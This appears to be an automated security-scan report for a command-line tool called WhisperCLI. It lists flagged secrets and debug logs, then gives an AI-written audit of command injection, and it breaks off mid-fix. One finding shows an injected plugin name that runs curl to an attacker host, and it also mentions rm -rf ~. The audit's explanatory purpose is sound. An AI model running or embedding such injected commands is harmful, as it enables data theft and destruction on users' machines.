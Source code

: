   - Line: 902
- Debug log found - may leak sensitive information
  - Line: 905
- Debug log found - may leak sensitive information
  - Line: 906

**🔴 Secret** (3):
- Hardcoded secret or credential detected
  - Line: 104
- Hardcoded secret or credential detected
  - Line: 526
- Hardcoded secret or credential detected
  - Line: 529

**🧠 AI Analysis:**
- As an elite security consultant, I have performed a comprehensive security audit of the provided `WhisperCLI` core logic. The following report details the vulnerabilities discovered, their potential impact, and concrete steps for remediation and prevention.

### **Executive Summary**

The `WhisperCLI` codebase, while functionally ambitious, contains several critical and high-severity vulnerabilities that expose the user to significant risks, including Arbitrary Code Execution, data exfiltration, and file system manipulation. The most severe issues stem from improper handling of user-provided input that is passed to shell commands, file system operations, and AI prompts. The automatic code-fixing feature, in particular, introduces a novel and critical attack vector via Prompt Injection.

Immediate remediation of the identified CRITICAL and HIGH severity vulnerabilities is strongly recommended before any public release or widespread internal use.

---

### **Vulnerability Audit Details**

#### **Finding 1: OS Command Injection in Plugin Installation**

-   **Severity:** CRITICAL
-   **Confidence:** 1.0
-   **Vulnerability Class:** INJECTION FLAWS
-   **Location:** `pluginInstall(plugin)`
-   **Exploitation Scenario:** An attacker convinces a user to run the `plugin install` command with a malicious plugin name. The `plugin` string is likely passed directly to a shell command (e.g., `npm install` or `git clone`). An attacker can append shell commands to the plugin name to achieve arbitrary code execution.
    ```bash
    # Attacker's command
    whisper plugin install "my-plugin; curl http://attacker.com/$(whoami)"
    ```
    This would execute the `curl` command on the user's machine with the user's privileges. A more malicious payload could install malware, steal SSH keys, or delete files (`rm -rf ~`).
-   **Business Impact:** Complete compromise of the user's machine. An attacker can steal sensitive data (code, credentials, personal files), install persistent backdoors, or use the machine as a pivot point to attack other systems on the network.
-   **Fix:** Never pass unsanitized user input directly to a shell. Use safer, programmatic alternatives. If using `npm`, leverage its API. If you must execute a command, use `child_process.execFile` and pass the command and arguments as separate array elements, which prevents shell metacharacter interpretation.
    ```javascript
    // Fix example using execFile
    import { execFile } from 'child_process';
